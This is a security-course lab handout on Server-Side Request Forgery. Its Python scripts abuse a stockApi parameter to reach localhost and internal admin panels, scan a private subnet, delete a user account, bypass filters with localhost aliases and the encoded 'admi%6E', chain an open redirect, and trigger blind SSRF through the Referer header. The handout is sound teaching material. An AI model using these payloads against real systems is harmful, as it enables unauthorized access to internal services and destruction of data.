

Perform the following labs demonstrating Server-Side Request Forgery.
A basic SSRF attack requires the web application to accept URLs from the user that it subsequently retrieves itself. Web proxies and web application firewalls are examples of applications that do this. Unfortunately, such devices are connected to sensitive internal networks. If internal servers implicitly trust requests coming in from other internal sources, any request from the adversary through the proxy or firewall will succeed where a direct access by the adversary will fail. In this level, an admin interface for a web site has been implemented to only allow access from local users.
/admin path of your site.Visit a product page on the site. Right-click the "Check Stock" button and click on "Inspect" to bring up Developer Tools. Click the button to check the stock and then visit the "Network" tab in Developer Tools to view the POST request that is sent, including its payload.

We can write a Python script that performs this request. Using the information obtained from the POST request, fill in the script and run it. Validate that you can successfully check your site's stock for the item.
# <FMI> (Fill Me In) denotes a value you will need to modify
import requests
stock_url = '<FMI>'
stock_api_data = {
'stockApi': '<FMI>'
}
resp = requests.post(stock_url, data=stock_api_data)
print(resp.text)As the request shows, the form includes a URL that is then used by the product application to create a request that queries the backend stock API server. If an adversary replaces this with another URL, access to a sensitive internal site can occur. In this case, a URL such as the local admin interface of the product application site can be allowed that was denied previously. Replace the stockAPI URL with the URL of the admin interface below and re-run your script.
http://localhost/adminAs the output shows, a set of links for deleting users is revealed. With this, modify the Python program again to cause the web server to delete carlos's account and solve the level.
While the previous example targets a local interface running on the product application site, one can easily target any internal server that the site is connected to. For example, a private server running an admin interface on a private IP address can be accessed.
http://192.168.0.X:8080/adminModify your script to search for a private backend system that the admin interface is running on.
Then repeat the deletion of the account. A helpful code snippet is below:
for i in range(1,255):
ssrf_data = {
'stockApi' : f'http://192.168.0.{i}:8080/admin'
}
resp = requests.post(stock_url, data=ssrf_data)
if resp.status_code == 200:
print(f'Admin interface at 192.168.0.{i}')
breakThe product application site can implement filtering to remove sensitive addresses and files from incoming requests. Unfortunately, getting filters right is a difficult task. For example, to filter out connections to 'localhost', one must filter out its aliases such as:
% ping 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.059 ms
% ping 2130706433
PING 2130706433 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.060 ms
% ping 017700000001
PING 017700000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.062 ms
% ping 127.1
PING 127.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.060 msIn this level, the site fails to filter all versions of localhost, allowing you to bypass the check. In addition, it filters out the admin string, but does so before the payload is fully URL decoded. As a result, the payload admi%6E does not match the filter and is passed through, but if there is a subsequent URL-decode, that payload turns into admin.
Modify the Python script to bypass both filters. Then use the Python script to delete the user carlos to solve the lab.
Redirects are common in web sites. For example, if you access a part of a site that requires authorization, you may be redirected to a login page that will then redirect you back to the part you were on upon login. In this case, the initial access may send its URL as a parameter to the login route so that the login route can perform the appropriate redirection afterwards.
The web site for this level contains an unvalidated redirect when implementing product navigation. Visit the site and click on a product. At the bottom, find the "Next product" link and copy and paste its URL to examine it. Answer the following questions for subsequent parts of this lab.
page that implements the redirect?parameter specifies the URI that the page uses to redirect the browser to?We will use this vulnerability to perform an SSRF attack. The admin interface is given to us at http://192.168.0.12:8080. However, unlike prior levels, the stockApi parameter is strictly validated to prevent access to private servers directly. We can, however, use the product navigation page, to trick the web server into redirecting itself to the admin interface. Consider the following Python snippet.
page = '/product/<FMI>'
parameter = '<FMI>'
open_redir_path = f'{page}?{parameter}={delete_url}'
stockapi_data = {
'stockApi' : open_redir_path
}
resp = requests.post(stock_url, data=stockapi_data)In this code, the web server is given a stockApi URL that is instead a link to the vulnerable open redirection page. As a redirection parameter, it is tricked into sending the URL that will delete the carlos account. Fill in the appropriate values to solve the level.
This site uses analytics software which fetches the URL specified in the HTTP Referer: request header when a product page is loaded. If the site blindly fetches any URL it has been given, an adversary can easily perform an SSRF attack. To solve the lab, we only need to trick the site into accessing the public Burp Collaborator server.
Programmatically, this can be easily done using Python requests and its headers keyword for specifying HTTP request headers as shown below:
s.get(url, headers={'referer' : "https://burpcollaborator.net"})